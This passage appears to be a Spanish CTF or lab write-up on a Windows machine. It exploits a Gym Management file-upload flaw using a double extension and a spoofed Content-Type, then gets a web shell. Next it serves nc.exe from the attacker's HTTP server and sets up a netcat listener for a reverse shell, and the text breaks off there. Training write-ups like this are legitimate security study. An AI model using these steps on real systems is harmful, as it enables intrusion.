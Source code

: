 Analyzamos el script y lo comprobamos con firefox al mismo tiempo:

1. Ir a la pagina /upload.php que no mirra para una session de usuario authentificado

    -

```bash
 http://10.10.10.198:8080/upload.php 
```

 Nos pone undefined id parameter.

1. Ponerle un parametro id en la GET request que appunte en el fichero deseado

    -

```bash
 http://10.10.10.198:8080/upload.php?id=EEEE 
```

 nos hace algo.

1. Bypasseamos un archivo con una doble extension. (.php.png)
1. Bypasseamos el type check modificando el **Content-type** del fichero con

```bash
 image/png 
```

1. Se pone un codigo malicioso en el body del fichero

Estos passos se pueden facilmente hacer a mano pero aqui vamos a utilizar el proprio exploit.

## Vuln exploit & Gaining Access {-}

### Conneccion por gym management {-}

```bash
python gym_management.py http://10.10.10.198:8080/
```

Ya estamos en la maquina victima. Pero estamos con una web shell.

### Reverse Shell {-}

En la maquina de attackante enviamos un nc.exe a la maquina victima para tener una shell interactiva

```bash
locate nc.exe
cp /opt/SecLists/Web-Shells/FuzzDB/nc.exe .
python -m http.server 80
```

Con otra terminal, nos ponemos en escucha por el puerto 443

```bash
rlwrap nc -nlvp 443
```

desde la maquina victima, lo descargamos y lo ejecutamos
